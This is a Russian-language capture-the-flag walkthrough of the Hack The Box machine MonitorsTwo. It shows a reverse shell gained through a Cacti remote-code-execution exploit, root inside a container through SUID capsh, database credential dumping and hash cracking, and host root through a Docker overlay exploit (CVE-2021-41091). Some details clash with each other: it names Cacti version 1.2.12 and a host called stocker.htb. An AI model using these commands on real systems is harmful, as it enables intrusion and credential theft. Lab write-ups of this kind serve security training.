# MonitorsTwo
:white_check_mark:  [**Cacti 1.2.12 RCE**](#Cacti_1.2.12_RCE)

:white_check_mark:  [**Capsh SUID(privesc)**](#Capsh_SUID)

:white_check_mark:  [**Docker SUID / CVE-2021-41091**](#Docker_SUID)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV monitorstwo.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```

<a name="Cacti_1.2.12_RCE"></a>

## Cacti 1.2.12 RCE

Главная страница **stocker.htb**:



Мы можем обнаружить веб-приложение cacti версии 1.2.12. Найдем [эксплоит](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) для экплуатации уязвимости.

Настроим слушатель и запустим эксплоит командой:
```
python3 CVE-2022-46169.py -u http://TARGET_IP --LHOST=YOUR-IP --LPORT=YOUR-PORT 
```

Получаем обратную оболочку.



<a name="Capsh_SUID"></a>

## Capsh SUID(privesc)

Просмотрим файлы на наличие бита SUID:

```
find / -perm -u+s 2>/dev/null
```



На [сайте](https://gtfobins.github.io/gtfobins/capsh/) мы можем найти информации как эклуатировать данную уязвимость. Исполним команду для получения root:

```
capsh --gid=0 --uid=0 --
```



В корневой директории мы можем обнаружить файл entrypoint.sh. 



Просмотрим его содержимое:

```
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```



Из содержимого данного файла мы можем понять, что мы можем обратиться к базе данных.

Просмотрим столбцы таблицы user_auth:

```
mysql --host=db --user=root --password=root cacti -e "SHOW COLUMNS FROM user_auth"
```



Просмотрим содержимое username и password:

```
mysql --host=db --user=root --password=root cacti -e "SELECT username, password FROM user_auth"
```



Мы получили хэши паролей.

Скопируем хэш пользователя marcus и расшируем его с помощью JohnTheRipper:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



Получаем пароль пользователя marcus.

Попробуем подключится по ssh. После успешного подключения закинем скрипт linpeas в /tmp директорию и запустим его. В выводе скрипта мы можем обнаружить следующее:



<a name="Docker_SUID"></a>

## Docker SUID / CVE-2021-41091

Просмотрим почту marcus-а перейдя в нужную директорию.



В данном письме говорится о нескольких уязвимостях. Найдем [эксплоит](https://github.com/UncleJ4ck/CVE-2021-41091) уязвимости CVE-2021-41091.

Прокинем его на данную машину и запустим.

В нем нас спросят, выставлен ли SUID на /bin/bash в docker контейнере. Отвечаем да. Скрипт не отработает но даст подсказку, в какой директории высталять SUID. Переходим в директорию **/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged** и выставляем SUID:

```
./bin/bash -p
```

Получаем root.